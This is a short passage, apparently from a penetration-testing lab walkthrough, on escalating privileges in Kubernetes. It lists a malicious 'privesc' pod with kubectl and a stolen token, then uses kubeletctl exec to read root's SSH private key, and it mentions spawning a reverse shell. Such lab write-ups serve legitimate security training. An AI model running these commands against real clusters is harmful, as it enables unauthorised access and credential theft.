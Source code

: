 pod/privesc created


cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods

NAME	READY	STATUS	RESTARTS	AGE
nginx	1/1		Running	0			23m
privesc	1/1		Running	0			12s
</code></pre>
<p>If the pod is running we can execute the command and we could spawn a reverse shell or retrieve sensitive data like private SSH key from the root user.</p>
<h4>Extracting Root's SSH Key</h4>
<pre><code class="language-shell-session">cry0l1t3@k8:~$ kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc

-----BEGIN OPENSSH PRIVATE KEY-----
...SNIP...
</code></pre>
